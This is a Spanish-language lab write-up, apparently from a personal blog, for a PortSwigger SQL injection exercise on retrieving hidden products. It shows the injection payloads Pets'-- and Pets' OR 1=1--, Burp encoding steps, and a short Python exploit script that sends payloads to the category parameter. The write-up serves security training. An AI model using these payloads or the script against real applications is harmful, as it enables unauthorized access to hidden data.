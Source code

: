 ```yaml
---
title: "01 Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
collection: publications
category: portswigger
permalink: publications/SQLi/01_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que hace que la aplicación muestre detalles de todos los productos de cualquier categoría, tanto liberados como no liberados.'
date: 2024-11-30
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability in WHERE clause allowing retrieval of hidden data'
---
```


![lab_logo]({{site.url}}/images/SQLi/sqli-1/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Dificultad: APPRENTICE  

## Descripción de laboratorio

![lab_description]({{site.url}}/images/SQLi/sqli-1/lab_description.png)

## Query

La consulta utilizada por la aplicación se proporciona en la descripción del laboratorio. Supongo que la cadena de categoría se toma directamente del argumento de la URL

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Pasos

### Encontrar un punto de referencia

Para conocer la referencia de los productos liberados, filtro por `Pets`, que muestra 3 entradas. 

### Ignorar la parte liberada de la consulta

Ahora necesito inyectar algo que haga que se ignore la parte 'AND released = 1', por ejemplo inyectando un comentario que ignore todas las partes restantes de la consulta.

Por ejemplo, inyectando `Pets'--` se obtiene esta consulta:

```sql
SELECT * FROM products WHERE category = 'Pets'--' AND released = 1
```

Observe la comilla simple después del `--`, que es añadida por la aplicación. Esto sería un error de sintaxis, pero debido al comentario se ignora y no tenemos que tratar con él.

#### URL encode

La URL debe estar correctamente codificada. Cuando se utiliza un navegador, esto se hará automáticamente por el navegador, pero no se muestra en la barra de URL. Cuando se utiliza el Burp Repeater, la codificación de la URL debe hacerse manualmente con `Ctrl+U`.

![url encode in burp]({{site.url}}/images/SQLi/sqli-1/url_encode.png)

==> Se muestran 4 entradas, por lo que la parte liberada se comenta correctamente.

### Mostrar todos los productos independientemente de su categoría

Para mostrar todos los productos, independientemente de su categoría o estado de liberación, necesito inyectar una cadena que se evalúe como `TRUE` para cada entrada de la tabla. Por ejemplo, la expresión `1=1`.

```sql
Pets' OR 1=1--
```
El resultado es la consulta

```sql
SELECT * FROM products WHERE category = 'Pets' or 1=1 -- ' AND released = 1
```

Que muestra todas las entradas ya que para cada entrada la condición 1=1 permanece verdadera. El laboratorio se actualiza a

![Result]({{site.url}}/images/SQLi/sqli-1/result.png)

```python
import requests
import sys
import urllib3

# Desactiva advertencias de verificación SSL.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Configuración de proxy para herramientas como Burp Suite.
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    """
    Prueba una inyección SQL en el parámetro `category` de un endpoint específico.
    """
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    # Comprobamos si la respuesta contiene el indicador de éxito "Cat Grib".
    if "Cat Grib" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        # Extrae la URL y el payload de los argumentos de línea de comandos.
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        # Muestra el formato de uso si faltan argumentos.
        print("[-] Uso: %s <url> <payload>" % sys.argv[0])
        print('[-] Ejemplo: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)

    # Llama a la función para intentar la inyección SQL.
    if exploit_sqli(url, payload):
        print("[+] ¡Inyección SQL exitosa!")
    else:
        print("[-] Inyección SQL no exitosa.")

```